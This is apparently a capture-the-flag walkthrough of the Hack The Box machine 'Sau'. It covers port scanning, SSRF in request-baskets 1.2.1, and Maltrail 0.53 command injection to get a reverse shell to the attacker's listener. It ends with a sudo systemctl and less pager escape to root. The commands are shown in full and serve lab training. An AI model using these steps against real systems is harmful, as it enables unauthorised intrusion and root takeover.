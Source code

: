 ```yaml
---
title: Sau
categories: HTB
tags: complete retired easy linux
img_path: /assets/img/HTB/Sau/
---
```


![Sau HTB machine card](Sau.png)

> Sau is an easy Linux machine from Hack the Box. Here is the tldr;
>
> * nmap shows ports 22 and 55555 are open and port 80 is filtered.
> * Port 55555 is running a version of `request-baskets` that is vulnerable to SSRF, allowing us to set up a proxy to access port 80.
> * Port 80 is running a service called `Maltrail` which is vulnerable to unauthenticated remote OS comand injection, allowing us to get a reverse shell.
> * Our user is able to run systemctl as sudo. This version uses the pager `less`, which retains the sudo priviledges allowing us to spawn a shell as root.
{: .prompt-tip }

## Video Walkthrough

{% include youtube.html url='cHuljUzBv3Y?si=vCjDGM5yApRHArhN' %}

## Enumeration

Let's start off with a basic nmap scan.

```bash
┌──(f0rest3xplorer㉿kali)-[~/Documents/HTB/sau]
└─$ nmap 10.10.11.224                             
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-14 15:07 MST
Nmap scan report for 10.10.11.224
Host is up (0.061s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
55555/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 11.14 seconds
```

SSH is probably not our ticket and port 80 is filtered, so 55555 is looking really interesting. Let's take a closer look and see what we have.

### Request Baskets

![Create a new basket](new_basket.png)
Visiting our ip address at port 55555 in a browser shows us a page called Request Baskets, which says it can collect and inspect HTTP requests.

Further investigation shows us that it is powered by request-baskets version 1.2.1. This should be helpful!

![Request Basket version 1.2.1](request_baskets_version.png)

Searching Google for request baskets version 1.2.1 reveals that it is vulnerable to server side request forgery (SSRF), CVE-2023-27163. Maybe we can use this to see what is on port 80?

Let's test it out by starting a netcat listener on our machine and see if we can reach it by creating a new basket.

```bash
┌──(f0rest3xplorer㉿kali)-[~/Documents/HTB/sau]
└─$ nc -lvnp 80
```

In the basket settings, let's configure it to forward the request to our Kali machine's IP address.

![Forwarding settings for basket](forward_settings1.png)

Next, let's curl the basket using the URL provided

![The url for our basket](basket_url.png)

Success! We are able to receive the request we sent on our netcat listener.

![curl the basket with nc listener open](nc_request.png)

### SSRF

Now that we see how things work and know that it is vulnerable, let's see if we can use it to connect to the mysterious port 80. To do this, let's edit the settings for our basket again and set it to forward port 80 from `http://127.0.0.1` with Proxy Response and Expand Forward Path checked.

![Adjusting the settings for our basket](forward_settings2.png)

### Maltrail v 0.53

Now when we go to the URL for the basket, it gives us a broken looking site. At the bottom, we notice it is running something called Maltrail v 0.53. 

![Broken looking homepage for maltrail on port 80](maltrail.png)

Google shows us that this version is vulnerable to unauthenticated OS command injection (RCE). I found this Python exploit that should give us a reverse shell. [Spookier Maltrail v 0.53 Exploit](https://github.com/spookier/Maltrail-v0.53-Exploit)

### We have a shell!

To run the exploit, we just need to start a netcat listener (I chose port 9001), then run the exploit passing it our listening IP address and port, along with the url for our basket.

```bash
┌──(f0rest3xplorer㉿kali)-[~/Documents/HTB]
└─$ python3 maltrail.poc.py 10.10.14.6 9001 http://10.10.11.224:55555/ionzxhf
```

![Terminal showing reverse shell](rev_shell.png)
Hooray! We now have a reverse shell, it looks like we're currently running as the user "puma".

## Foothold & User

Let's upgrade our shell a little and take a look around.

```bash
┌──(f0rest3xplorer㉿kali)-[~/Documents/HTB]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.224] 51276
$ python3 -c 'import pty;pty.spawn("/bin/bash")';
python3 -c 'import pty;pty.spawn("/bin/bash")';
puma@sau:/opt/maltrail$ 
```

### User Flag

If we navigate to `/home/puma` we are able to get the `user.txt` flag, no privesc needed at this point.

### Privesc

One of the first things I like to run is `sudo -l` to see if our user can run anything as root.

```bash
puma@sau:/opt/maltrail$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

Bingo! Looks like we're able to run `sudo systemctl status trail.service` with no password. If we run `systemctl --version`, we see that we're running `systemd 245 (245.4-4ubuntu3.22)`.

## Root!

It appears that if we run the command as sudo, it will use the pager `less` to show the results. Within `less`, we are able to run commands and it maintains the sudo priviledges allowing us to launch `/bin/bash` as root. To run a command in less you just type `!` followed by your command.

```bash
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!/bin/bash
!//bbiinn//bbaasshh!/bin/bash
root@sau:/opt/maltrail# id
id
uid=0(root) gid=0(root) groups=0(root)
root@sau:/opt/maltrail# 
```

And we have root!



